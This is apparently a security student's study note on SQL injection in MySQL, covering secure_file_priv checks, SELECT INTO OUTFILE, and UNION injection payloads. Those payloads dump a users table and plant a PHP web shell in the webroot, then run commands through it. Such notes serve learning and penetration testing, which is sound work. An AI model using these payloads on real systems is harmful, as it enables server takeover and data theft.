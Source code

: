 ```yaml
---
title: c-Writing Files
draft: false
tags:
  - web-shell
---
```

In modern DBMSes, writing to files in the back-end server is more restricted.

## Write File Privileges

Let's first check whether we have right to `write file`.

To be able to write files in MySQL, we need three things:

- User with `FILE` privilege enabled
- MySQL global `secure_file_priv` variable disabled
- Write access to the location we want to write to on the back-end server

### secure_file_priv

`secure_file_priv` is used to determine where to read/write files from. 

- **Empty** means we can read files from the entire file system. 
- If a directory is set inside `secure_file_priv`, we can only read from specified folder. 
- **NULL** means we can't read/write from any directory.

MariaDB - variable set as empty by default.

MySQL - `/var/lib/mysql-files` is set as the default folder.

Modern SQLs - default set as `NULL`.

Let's check out the value of `secure_file_priv`:

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

To use it with `UNION`:

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

Another example:

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

## SELECT INTO OUTFILE

Now let's assume we have confirmed that our user can write files to the back-end server. 

`SELECT INTO OUTFILE` can be used to write data from select queries into files.

e.g - save the out of the `users` table into `/tmp/credentials`:

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

e.g - write arbitrary files to the back-end server:

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

## Write Files through SQLi

Let's try writing a file to the webroot:

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

With `UNION` injection it should look like such:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

Now if we go to `http://server:port/proof.txt`, we will see the message `file written successfully!`.

## Web Shell

Let's write a PHP web shell to the webroot folder.

We can write the following PHP webshell:

```php
<?php system($_REQUEST[0]); ?>
```

With `UNION` injection, it should look like this:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Now we can execute commands as such:

`http://server:port/shell.php?0=whoami`
